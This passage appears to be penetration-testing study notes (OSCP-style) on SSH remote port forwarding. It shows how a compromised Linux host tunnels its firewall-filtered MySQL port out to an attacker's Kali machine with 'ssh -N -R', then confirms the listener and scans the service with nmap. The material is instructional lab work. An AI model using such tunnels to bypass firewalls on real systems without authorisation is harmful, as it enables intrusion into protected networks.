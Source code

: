 

it will only restrict inbound traffic on 3389 and no outbound traffic.

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/20/39.jpg)

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/20/40.jpg)

The ssh command syntax to create this tunnel will include the local IP and port, the remote IP and port, and -R to specify a remote forward:

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/20/41.jpg)

ssh -N -R [bind_address:]port:host:hostport [username@address]


-N = nocmmands
-R = forward remote host
10.11.0.4 = kali machine
127.0.0.1 = internal linux machine forwarded by kali

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/20/42.jpg)

student@debian:~$ ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
kali@10.11.0.4's password:

 
• In this case, we will ssh out to our Kali machine as the kali user (kali@10.11.0.4), specify no commands (-N), and a remote forward (-R). 

• We will open a listener on TCP port 2221 on our Kalimachine (10.11.0.4:2221) and forward connections to the internal Linux machine’s TCP port3306 (127.0.0.1:3306)

kali is all incoming traffic to 
10.11.0.4 : 2221 ------→  127.0.0.1:3306

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/20/43.jpg)

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/20/44.jpg)

• This will forward all incoming traffic on our Kali system’s local port 2221 to port 3306 on the compromised box through an SSH tunnel (TCP 22), allowing us to reach the MySQL port eventhough it is filtered at the firewall.

Our connections can be illustrated as shown in Figure 299:

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/20/45.jpg)

• With the tunnel up, we can switch to our Kali machine, validate that TCP port 2221 is listening, and scan the localhost on that port with nmap, which will fingerprint the target’s MySQL service:

kali@kali:~$ ss -antp | grep "2221"
LISTEN 0 128 127.0.0.1:2221 0.0.0.0:* users:(("sshd",pid=2294,fd=9))
LISTEN 0 128 [::1]:2221 [::]:* users:(("sshd",pid=2294,fd=8))

kali@kali:~$ sudo nmap -sS -sV 127.0.0.1 -p 2221
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000039s latency).
PORT STATE SERVICE VERSION
2221/tcp open mysql MySQL 5.5.5-10.1.26-MariaDB-0+deb9u1
Nmap done: 1 IP address (1 host up) scanned in 0.56 seconds
